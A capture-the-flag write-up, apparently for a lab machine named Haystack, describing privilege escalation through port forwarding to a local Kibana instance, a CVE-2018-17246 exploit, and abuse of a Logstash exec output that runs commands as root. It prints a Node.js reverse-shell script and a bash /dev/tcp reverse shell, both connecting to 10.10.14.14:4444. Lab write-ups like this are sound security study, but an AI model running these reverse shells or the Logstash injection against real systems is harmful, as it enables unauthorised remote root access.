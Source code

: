 # 20 - PrivEsc

# Kibana port 5601
```bash
[security@haystack shm]$ ss -ltn
State      Recv-Q Send-Q                                                  Local Address:Port                                                                 Peer Address:Port              
LISTEN     0      128                                                                 *:80                                                                              *:*                  
LISTEN     0      128                                                                 *:9200                                                                            *:*                  
LISTEN     0      128                                                                 *:22                                                                              *:*                  
LISTEN     0      128                                                         127.0.0.1:5601                                                                            *:*                  
LISTEN     0      128                                                  ::ffff:127.0.0.1:9000                                                                           :::*                  
LISTEN     0      128                                                                :::80                                                                             :::*                  
LISTEN     0      128                                                  ::ffff:127.0.0.1:9300                                                                           :::*                  
LISTEN     0      128                                                                :::22                                                                             :::*                  
LISTEN     0      50                                                   ::ffff:127.0.0.1:9600                                                                           :::*       ```
```

It's exposed locally . With port forwarding we can access the service.

# Port Forwarding for kibana

```bash
[security@haystack /]$ 
[security@haystack /]$ 
[security@haystack /]$ 
ssh> -L 5601:127.0.0.1:5601
Forwarding port.
```



# Version
![](vx_images/5937823839867.png)

This version appears to be vulnerable.

# [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

```js
[security@haystack shm]$ cat /dev/shm/shell.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.14", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


# Shell
![](vx_images/5508958891463.png)





# logstash configuration
![](vx_images/1326661072987.png)

With the user we see that we are able to access logstash config files.

# filter, input, output.conf
```bash
bash-4.2$ cat * 
filter {
        if [type] == "execute" {             
                grok {                        
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }                        
        }                   
}                           
input {                                                                                        
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

According to filter and input configurations, Files that start with /opt/kibana/logstash_ will be read every 10 seconds. Commands that follow the format in the filter.conf will get executed as root.


# /opt/kibana/logstash_test
```bash
bash-4.2$ cat logstash_test 
Ejecutar comando : bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"

```


# root
![](vx_images/5835189767517.png)